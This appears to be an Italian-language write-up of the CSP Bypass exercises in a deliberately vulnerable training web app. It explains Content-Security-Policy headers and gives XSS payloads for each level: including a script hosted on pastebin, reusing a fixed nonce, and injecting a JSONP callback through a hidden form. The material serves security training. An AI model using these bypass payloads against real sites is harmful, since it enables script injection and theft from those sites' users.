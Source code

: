 ## CSP Bypass

- https://content-security-policy.com/
- https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
- https://blog.mozilla.org/security/2014/10/04/csp-for-the-web-we-have/

L'header HTTP `Content-Security-Policy` aiuta a ridurre i rischi di XSS, dichiarando quali risorse (Javascript, immagini, CSS, richieste AJAX, frame, media html5, ...) possono essere caricate.
Esempi sono:

- `default-src 'self';`: tutto da Same Origin
- `script-src 'self';`: solo script da Same Origin
- `script-src 'self' www.google-analytics.com ajax.googleapis.com;`: solo script da Google Analytics, Google AJAX CDN e Same Origin
- `default-src 'none'; script-src 'self'; connect-src 'self'; img-src 'self'; style-src 'self';base-uri 'self';form-action 'self'`: starter policy

## CSP Bypass - Low

```
$headerCSP = "Content-Security-Policy: script-src 'self' https://pastebin.com  example.com code.jquery.com https://ssl.google-analytics.com ;"; // allows js from self, pastebin.com, jquery and google analytics.
```

Exploit:

- accedi a `pastebin.com`
- crea un paste contenente `alert('hacked')`
- ottieni il link al formato `raw`
- includilo nella pagina vulnerabile (`Include`)

## CSP Bypass - Medium

```
$headerCSP = "Content-Security-Policy: script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=';";
```

Il `nonce` è fisso.

Exploit:

- usa il `nonce` specificato nell'header
- `<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert('hacked')</script>`

## CSP Bypass - High

```
$headerCSP = "Content-Security-Policy: script-src 'self';";

if (isset ($_POST['include'])) {
$page[ 'body' ] .= "
    " . $_POST['include'] . "
";
}
```

```
function clickButton() {
	var s = document.createElement("script");
	s.src = "source/jsonp.php?callback=solveSum";
	document.body.appendChild(s);
}
```

Exploit:

- crea una pagina contenente un POST form con `<input type="hidden" name="include" value="<script src=&quot;source/jsonp.php?callback=alert('hacked')&quot;</script>">`

